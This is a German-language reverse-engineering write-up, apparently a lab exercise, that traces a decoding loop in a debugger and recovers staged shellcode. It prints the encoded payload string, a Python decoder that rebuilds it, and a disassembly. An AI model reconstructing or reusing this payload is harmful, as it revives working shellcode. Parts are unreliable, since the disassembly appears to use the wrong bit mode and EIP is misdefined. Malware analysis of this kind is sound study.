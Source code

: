 1. Das EIP (Entry Instruction Pointer) wurde manuell auf die Adresse 0x00401000 gesetzt.

2. Wir haben mehrmals den Befehl "Step Over" verwendet, bis wir die Adresse 0x00401037 erreicht haben.
➤ Was sich geändert hat:
Der Funktionsname wurde manuell zu "CreateFileA" umbenannt, um die Lesbarkeit und Analyse zu erleichtern.
Der Wert von EAX hat sich von 0x00000000 auf 0x000000EC geändert.

3. Wir haben weiterhin den Befehl "Step Over" ausgeführt, bis wir die Adresse 0x0040105E erreicht haben. Dort blieb die Ausführung jedoch blockiert und konnte nicht fortgesetzt werden. Erst nachdem im Speicher vollständiger Zugriff (Full Access) auf die Adresse 0x0040105E gewährt wurde, konnte die Analyse mit dem nächsten Schritt fortgesetzt werden.
➤ Was sich geändert hat:
EAX = 0x00000CB5 ⇒ AL = 0xB5 (niedrigstes Byte von AX)
Wert 0xB5 wurde in den Speicher geschrieben
EDI = 0x00401069 (Zieladresse)
ESI = 0x0040106A (Quelladresse oder nächste Instruktion)
ECX = 0x017C (380 dezimal)

4.Wir haben weiterhin den Befehl "Step Over" verwendet, bis wir erneut die Adresse 0x0040105E erreicht haben, an der die Instruktion "STOSB" (AA) ausgeführt wurde. STOSB speichert ein Byte aus dem Register AL in eine bestimmte Speicheradresse.

Die Adresse 0x0040105E befindet sich innerhalb einer Schleife, die wie folgt aufgebaut ist:

```
0040104C | AC            | LODSB         ; lädt ein Byte von [ESI] in AL
0040104D | 66:2D 6100    | SUB AX, 0x61  ; Subtrahiert 0x61 von AX
00401051 | 66:C1E0 04    | SHL AX, 4     ; Shiftet AX um 4 Bit nach links
00401055 | 66:8BD0       | MOV DX, AX    ; Kopiert AX nach DX
00401058 | AC            | LODSB         ; Lädt nächstes Byte in AL
00401059 | 2C 61         | SUB AL, 0x61  ; Subtrahiert 0x61 von AL
0040105B | 66:03C2       | ADD AX, DX    ; Addiert DX zu AX
0040105E | AA            | STOSB         ; Speichert AL in [EDI]
0040105F | 49            | DEC ECX       ; Dekrementiert ECX
00401060 | 75 EA         | JNE 0040104C  ; Springt zurück, wenn ECX ≠ 0
```

Die Schleife liest bei jeder Iteration zwei kodierte Zeichen, wandelt sie in einen binären Wert (4 Bit + 4 Bit) um, und schreibt das resultierende Byte in einen Speicherpuffer.
Dieser Vorgang wird 380 Mal wiederholt (ECX = 0x017C), um ein Payload aus 760 Zeichen zu rekonstruieren.

5. Wir haben weiterhin "Step Over" verwendet, bis wir die Adresse 0x0040106A erreicht haben. Dort wurde die Instruktion "IN AL, DX" (Opcode: EC) ausgeführt.

Die Instruktion "IN AL, DX" liest ein Byte von einem I/O-Port, dessen Adresse im Register DX gespeichert ist, und speichert es im Register AL.

Um zu analysieren, worauf genau diese Instruktion zugreift, haben wir die verschlüsselte Zeichenkette ab der Adresse ESI = 0x0040106A extrahiert und mit einem Python-Skript entschlüsselt.

Das verwendete Python-Skript:

```python
encoded = "Yl_mYd_mfmfdfgfh]hef`abbaaaaaa_jboabaaaaYpef`mge[bdaaaaaaaYleaamYlhabm[nYlfiaiYjfn_mYlen`aYlhn`mfbYlef_mYlhadmYlheaghiad`afgYlhgcaad`add]jejeb[nadef_mdd^lap\\\\obadk^gheai]b]lanad^kea_l`bdlbphf_gfoYlfoceadfn_mggYlamelYlfobmadfn_mYlaeYladef_m[lfj_c\\\\fdd]aYjef_iYjef_eYdef_eaegkaaYlef_efaYlen`m`pfbbaYjef`eYdhn`e`phegnYbhn`eaacaaaaahnac_lgcgkeagiaabaaaaaYlff`efcgkaaYlef`m`pfadeYjef`igkaagkaagkaaYlen_efbYlff`m`pfcdagkaaYnef_ifaYlen`efbYlff`ifcYlef_efaYlen`m`pfbcmYlff`iadff`eYbhk`mgfgpggakhfac_lcagiaaYaaaaaYle"

data = [ord(c) for c in encoded]

def decrypt(data):
    decrypted = bytearray()
    i = 0
    while i < len(data) - 1:
        a = data[i]
        b = data[i + 1]
        val = ((a - 0x61) << 4) + (b - 0x61)
        decrypted.append(val & 0xFF) 
        i += 2
    return decrypted

decrypted_bytes = decrypt(data)

with open("decrypted_output.bin", "wb") as f:
    f.write(decrypted_bytes)
```

Das Skript generierte die Datei decrypted_output.bin, welche den entschlüsselten Shellcode enthält, der ursprünglich an der Adresse ESI = 0040106A gespeichert war.

Wir haben dann das Tool ndisasm verwendet, um diesen Binärcode zu disassemblieren. Das hat uns ermöglicht, die genaue Funktion der IN AL, DX-Instruktion zu erkennen. Die Ausgabe war wie folgt:
```asm
00000000  8BEC              mov bp,sp
00000002  83EC5C            sub sp,byte +0x5c
00000005  53                push bx
00000006  56                push si
00000007  57                push di
00000008  C745F01100        mov word [di-0x10],0x11
0000000D  0000              add [bx+si],al
0000000F  E91E01            jmp 0x130
00000012  0000              add [bx+si],al
00000014  8F45FC            pop word [di-0x4]
00000017  64A13000          mov ax,[fs:0x30]
0000001B  0000              add [bx+si],al
0000001D  8B400C            mov ax,[bx+si+0xc]
00000020  8B701C            mov si,[bx+si+0x1c]
00000023  AD                lodsw
00000024  8B5808            mov bx,[bx+si+0x8]
00000027  895DEC            mov [di-0x14],bx
0000002A  8B4DF0            mov cx,[di-0x10]
0000002D  8B7DFC            mov di,[di-0x4]
00000030  51                push cx
00000031  8B45EC            mov ax,[di-0x14]
00000034  8B703C            mov si,[bx+si+0x3c]
00000037  8B7406            mov si,[si+0x6]
0000003A  7803              js 0x3f
0000003C  F056              lock push si
0000003E  8B7620            mov si,[bp+0x20]
00000041  03F0              add si,ax
00000043  33C9              xor cx,cx
00000045  49                dec cx
00000046  41                inc cx
00000047  AD                lodsw
00000048  0345EC            add ax,[di-0x14]
0000004B  33DB              xor bx,bx
0000004D  0FABE1            bts cx,sp
00000050  039D6740          add bx,[di+0x4067]
00000054  7C0C              jl 0x62
00000056  B0D0              mov al,0xd0
00000058  2DA4FE            sub ax,0xfea4
0000005B  AF                scasw
0000005C  13B1F74E          adc si,[bx+di+0x4ef7]
00000060  65D8B5E240        fdiv dword [gs:di+0x40e2]
00000065  35CEC6            xor ax,0xc6ce
00000068  58                pop ax
00000069  B0C4              mov al,0xc4
0000006B  A8B5              test al,0xb5
0000006D  E1C0              loope 0x2f
0000006F  35CEB8            xor ax,0xb8ce
00000072  B038              mov al,0x38
00000074  B034              mov al,0x34
00000076  4E                dec si
00000077  BAB58E            mov dx,0x8eb5
0000007A  1BB533C0          sbb si,[di-0x3fcd]
0000007E  8945E8            mov [di-0x18],ax
00000081  8945E4            mov [di-0x1c],ax
00000084  8345E404          add word [di-0x1c],byte +0x4
00000088  6A00              push byte +0x0
0000008A  8B45E4            mov ax,[di-0x1c]
0000008D  50                push ax
0000008E  8B4DFC            mov cx,[di-0x4]
00000091  FF5110            call [bx+di+0x10]
00000094  8945F4            mov [di-0xc],ax
00000097  837DF4FF          cmp word [di-0xc],byte -0x1
0000009B  746D              jz 0x10a
0000009D  817DF40020        cmp word [di-0xc],0x2000
000000A2  0000              add [bx+si],al
000000A4  7D02              jnl 0xa8
000000A6  EB62              jmp short 0x10a
000000A8  6A40              push byte +0x40
000000AA  680010            push word 0x1000
000000AD  0000              add [bx+si],al
000000AF  8B55F4            mov dx,[di-0xc]
000000B2  52                push dx
000000B3  6A00              push byte +0x0
000000B5  8B45FC            mov ax,[di-0x4]
000000B8  FF5034            call [bx+si+0x34]
000000BB  8945F8            mov [di-0x8],ax
000000BE  6A00              push byte +0x0
000000C0  6A00              push byte +0x0
000000C2  6A00              push byte +0x0
000000C4  8B4DE4            mov cx,[di-0x1c]
000000C7  51                push cx
000000C8  8B55FC            mov dx,[di-0x4]
000000CB  FF5230            call [bp+si+0x30]
000000CE  6A00              push byte +0x0
000000D0  8D45E8            lea ax,[di-0x18]
000000D3  50                push ax
000000D4  8B4DF4            mov cx,[di-0xc]
000000D7  51                push cx
000000D8  8B55F8            mov dx,[di-0x8]
000000DB  52                push dx
000000DC  8B45E4            mov ax,[di-0x1c]
000000DF  50                push ax
000000E0  8B4DFC            mov cx,[di-0x4]
000000E3  FF512C            call [bx+di+0x2c]
000000E6  8B55F8            mov dx,[di-0x8]
000000E9  0355F4            add dx,[di-0xc]
000000EC  817AFC656F        cmp word [bp+si-0x4],0x6f65
000000F1  660A7502          o32 or dh,[di+0x2]
000000F5  EB20              jmp short 0x117
000000F7  680080            push word 0x8000
000000FA  0000              add [bx+si],al
000000FC  8B                db 0x8b
```

Die Instruktion MOV EAX, FS:[0x30], die wir bei Adresse 0x00000017 gefunden haben, zeigt, dass der Shellcode versucht, auf den Process Environment Block, also den PEB, zuzugreifen.
Das ist bei vielen Shellcodes ganz typisch – sie holen sich damit Infos über den Prozess, zum Beispiel wo genau die wichtigen DLLs wie kernel32.dll im Speicher liegen.
Danach werden Funktionen wie LoadLibrary oder GetProcAddress verwendet, um weitere Funktionen zu laden. So kann der Shellcode seine eigentliche Payload nach und nach ausführen – also genau das, was man bei einem staged Shellcode erwartet.
